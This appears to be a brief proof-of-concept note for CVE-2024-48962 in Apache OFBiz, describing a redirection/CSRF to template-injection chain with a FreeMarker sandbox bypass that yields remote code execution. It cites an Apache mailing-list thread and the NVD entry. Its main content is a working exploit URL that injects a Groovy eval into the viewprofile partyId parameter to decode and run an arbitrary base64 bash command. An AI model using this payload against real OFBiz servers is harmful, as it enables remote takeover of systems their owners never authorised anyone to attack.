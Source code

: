 Simple redirection/CSRF to SSTI with freemaker sandbox bypass leading to RCE:
- https://lists.apache.org/thread/mmo13ko5xn50f2yq4z0dfk9fdj8ffgt6
- https://nvd.nist.gov/vuln/detail/CVE-2024-48962

poc:
```
https://domain/partymgr/control/viewprofile?partyId=${Static["org.apache.ofbiz.base.util.GroovyUtil"].eval("\'bash -c {echo,B64}|{base64,-d}|bash\'.execute()",null)}
```
